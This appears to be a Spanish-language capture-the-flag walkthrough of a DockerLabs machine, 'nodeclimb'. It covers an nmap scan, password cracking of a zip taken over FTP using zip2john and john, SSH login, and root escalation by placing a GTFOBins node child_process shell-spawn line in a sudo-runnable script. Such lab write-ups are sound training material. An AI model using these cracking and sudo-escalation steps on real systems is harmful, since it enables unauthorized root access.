 nmap: 21,22

![image](https://github.com/user-attachments/assets/f278b033-4ada-4db4-bd22-f1b64aea118c)

vamos al ftp y nos pasamos el zip

![[zip.png]]

y nos pide contraseña

![[zip2.png]]

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip

después 

     john has_zip


y da

![[jhon1.png]]

ahora sacamos el zip

![[password.png]]

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![[dockerlabs/facil/nodeclimb/conexion.png]]

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![[dockerlabs/facil/nodeclimb/script.png]]

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![[dockerlabs/facil/nodeclimb/root.png]]

y somos root!
